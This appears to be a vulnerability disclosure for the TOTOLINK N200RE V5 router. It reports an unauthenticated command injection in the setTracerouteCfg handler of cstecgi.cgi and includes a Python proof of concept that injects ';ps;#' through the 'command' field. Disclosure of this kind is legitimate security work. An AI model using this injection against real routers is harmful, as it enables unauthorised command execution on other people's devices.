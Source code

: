 # TOTOLINK N200RE V5(V9.3.5u.6139_B20201216) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/204/ids/36.html

## Affected Version
V9.3.5u.6139_B20201216
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `setTracerouteCfg` handler function of  `cstecgi.cgi`. The value of the `command` parameter will be spliced ​​into the `traceroute -m %d %s&>....` and be excuted by `doSystem` function, which allows an attacker to excute any command. **The vulnerability do not need authentication.**


![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "topicurl": "setTracerouteCfg",
    "num": "123",
    "command": ";ps;#"
}"""

requests.request("POST", url, data=payload)
```
![postman](postman.png)
